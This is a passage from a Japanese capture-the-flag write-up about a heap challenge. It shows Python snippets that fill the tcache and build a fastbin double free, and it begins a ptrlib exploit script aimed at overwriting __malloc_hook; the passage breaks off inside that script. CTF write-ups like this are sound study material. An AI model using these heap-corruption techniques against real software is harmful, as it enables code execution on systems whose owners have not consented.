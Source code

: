 ```
```
これはJのcontentがfreeされた後にJ自体もfreeされるからです。

double freeしないとダメなようなので、fastbinを使います。
競技中は次のようなコードでdouble freeしようとしてなぜかtcache 2で死ぬーって困っていました。
```python
for i in range(7):
    create("dummy" + str(i))
    write("dummy" + str(i), 0x38, "pon")
create("AAAA")
write("AAAA", 0x38, "Hello")
create("BBBB")
write("BBBB", 0x38, "World")
for i in range(7):
    delete("dummy" + str(i))
delete("AAAA")
create("AAAA")
delete("BBBB")
create("CCCC")
```
次のように0x28のtcacheを使ってやると直りました。なんで？
```python
for i in range(7):
    create("dummy" + str(i))
    write("dummy" + str(i), 0x38, "pon")
create("AAAA")
write("AAAA", 0x38, "Hello")
create("BBBB")
write("BBBB", 0x38, "World")
for i in range(7):
    delete("dummy" + str(i))
for i in range(7):
    create("DUMMY" + str(i))
delete("AAAA")
create("AAAA")
delete("BBBB")
delete("AAAA")
```
ちょっと眠くて原因を考えるほど頭が回りませんが、通ったのでおっけー。
あとはdupしたfastbinを使って`__malloc_hook`を書き換えるだけです。

```python
from ptrlib import *

def create(title):
    sock.recvuntil("Choice: ")
    sock.sendline("1")
    sock.recvuntil("Title: ")
    sock.sendline(title)

def write(title, size, data):
    sock.recvuntil("Choice: ")
    sock.sendline("2")
    sock.recvuntil("content: ")
    sock.sendline(title)
    sock.recvuntil("content: ")
    sock.sendline(str(size))
    sock.recvuntil("Content: ")
    sock.sendline(data)

def show(title):
    sock.recvuntil("Choice: ")
    sock.sendline("3")
    sock.recvuntil("content: ")
    sock.sendline(title)
```